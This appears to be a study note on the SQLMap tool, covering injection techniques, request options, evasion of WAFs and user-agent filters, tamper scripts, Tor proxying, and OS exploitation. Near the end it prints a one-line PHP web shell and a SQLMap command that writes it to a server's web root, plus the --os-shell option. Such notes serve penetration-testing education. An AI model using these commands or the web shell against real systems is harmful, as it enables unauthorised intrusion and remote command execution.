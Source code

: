 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/bug-bounty-hunter/sql-injection/sql-map/","tags":["SQLi","SQLInjection","SQL"]}
---
```



[SQLMap](https://github.com/sqlmapproject/sqlmap) is a free and open-source penetration testing tool written in Python that automates the process of detecting and exploiting SQL injection (SQLi) flaws. SQLMap has been continuously developed since 2006 and is still maintained today.

The technique characters `BEUSTQ` refers to the following:

-   `B`: Boolean-based blind
-   `E`: Error-based
-   `U`: Union query-based
-   `S`: Stacked queries
-   `T`: Time-based blind
-   `Q`: Inline queries

## cURL

One good way to use SQLMAP is to "Copy as cURL" from the Network Monitor panel inside the browser, paste the curl command into thet terminal and change "curl" to "sqlmap".

## GET/POST Requests

**GET** parameters are provided using the -u/--url flags.  For POST requests, use the ```
--data flag.

## Full HTTP Requests

For complex requests use the -r flag with a request captured from Burpsuite or otherwise.  Then run:
	```
```Shell
user@comp$ sqlmap -r req.txt
```

## Custom SQLMap requests

There are numerous switches to learn:

* --cookie
* -H/--header
* etc.
* --random-agent: can be important because it picks identifies as a random agent rather than SQLMap
* --mobile: will make SQLMap identify as a mobile smartphone.

It is possible to test headers for SQLi vulnerabiltiy by using the * marker.  For example: --cookie="id=1*"

## Handling SQLMap Errors

--parse-errors to parse and display DBMS errors.
-t /tmp/traffic.txt to store traffic to an output file.
-v (1-6) to set verbosity level
--proxy to send it through a proxy like burp.

## Fine tuning attacks.

--prefix and --suffix can be used to fine tune attacks.

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```
--level (1-5, default 1) extends the amount of vectors and boundaries used.
--risk (1-3, default 1) extends the vector set based on the risk of denial of service.

Various switches will also allow the fine tuning of SQLMap.


Note: The 'root' user in the database context in the vast majority of cases does not have any relation with the OS user "root", other than that representing the privileged user within the DBMS context. This basically means that the DB user should not have any constraints within the database context, while OS privileges (e.g. file system writing to arbitrary location) should be minimalistic, at least in the recent deployments. The same principle applies for the generic 'DBA' role.

## Bypassing web Application Protections

### Anti-[[Cybersecurity/Bug Bounty Hunter/CSRF\|CSRF]] Token Bypass

SQLMap has option:
```bash
--csrf-token
```

If you specify the token parameter (usually found in the request) then SQLMap will try to automatically attempt to parse the responses it gets for new tokens.

```bash
user@box$ sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

You use the --csrf-token switch to tell SQLMap that the token exists in the data field.  In addition, SQLMap will recognize common token specifiers like: [[Cybersecurity/Bug Bounty Hunter/CSRF\|CSRF]], xsrf, and token.

### Unique Value Bypass

Sometimes the website will have a predefined parameter that must be unique. This can be overcome using the option:
```bash
---randomize
```

### Calculated Parameter Bypass

Where a web application expects a proper parameter value be cacluated based on some other parameter values.  Often, one paramaer has to contain the message digest (e.g., **h=MD%(id)**) of another one.
```bash
---eval
```
can be used to bypass this.  Example:
```bash
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5
```

An in-depth write up of the --eval switch is [here](https://infosecwriteups.com/the-mystery-of-sqlmaps-eval-f6c7bf43e1f).

### IP Address Concealing

Can be done via proxy or tor.
```bash
--proxy="socks4://177.38.187.70:33283"
--proxy-file

--tor
--check-tor
```

--tor switch needs [[Cybersecurity/Bug Bounty Hunter/TOR\|TOR]] installed properly on the machine.

### [[Cybersecurity/Bug Bounty Hunter/Web Application Firewall (WAF)\|Web Application Firewall (WAF)]] bypass

SQLMap will automatically inject a suspicious payload as part of its initial tests to test for the existence of a WAF.  We can skip this test to make the test less noisy by using:
```bash
--skip-waf
```

### User-agent Blacklisting Bypass

One of the firt things to think about when there is a problem.  SQLMap identifies itself as SQLMap (e.g., **User-agent: sqlmap/1.4.9 (http://sqlmap.org)**) so we should consider using the switch **--random-agent** which will change the default user-agent to a randomly chosen pool of values used by browsers.

### Tamper Scripts

Tamper scripts are Python scripts written for modifying requests before thy are sent to a target to make them less detectable (i.e., to bypass protection.)

The list of tampers can be found with the switch:
```bash
--list-tampers
```

tampers are used with the tamper switch:
```bash
--tamper="between"
```


## OS Exploitation

### File Read/Write

Generally, the DB user must have the privilege to **LOAD** **DATA** and **INSERT** to be ablte to load the content of a file to a table and then read the table.

In modern databases it is a common requirement that the user have database administrator (DBA) privileges to do this.

We can check if the user has DBA privileges with the **--is-dba** switch.

### Reading Local Files
We can read files using **--file-read**

### Wrting Local Files

Generally reuires that the --secure-file-priv configuration is disabled to allow writing data into local files using the **INTO OUTFILE** SQL query.  With SQLMap we can try and use the options:
```bash
--file-write
--file-dest
```

Say we have tihs shell as "shell.php":
```php
<?php system($_GET["cmd"]); ?>
```

We could try:
```bash
sqlmap -u "http://www.target.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```
Confirm the upload by doing:
```bash
user@comp$ sqlmap -u "http://www.target.com/shell.php?cmd=ls+-la"
```
(We should get the directory contents.)

### OS Command Execution

We use the option:
```bash
--os-shell
```

One of the important lessons of this module was to use dev tools and burpsuite to locate potential injectable pages.go